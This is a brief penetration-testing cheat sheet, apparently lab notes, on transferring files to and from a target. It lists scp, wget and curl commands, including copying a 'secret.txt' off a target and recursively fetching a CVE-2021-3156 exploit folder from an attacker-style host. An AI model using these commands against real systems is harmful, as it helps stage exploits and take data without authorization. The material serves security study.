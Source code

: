 # Upload
#### **Method 1: `python` (Download from URL)**

```bash
python3 -m http.server 8000
```


# Downlaod
#### **Method 1: `scp` (Secure Copy - Requires SSH)**

```bash
scp username@target_ip:/path/to/file.txt /local/destination/

# example
scp htb-student@10.10.10.5:/home/user/secret.txt ~/Downloads/
```

#### **Method 2: `wget` (Download from URL)**

```bash
wget http://your-ip/file.txt -O /tmp/file.txt
```

#### **Method 3: `curl`**

```bash
curl http://your-ip/file.txt -o /tmp/file.txt
```


## Download whole folder

```bash
 wget -r -np -nH --cut-dirs=1 http://10.10.15.40:8000/CVE-2021-3156
```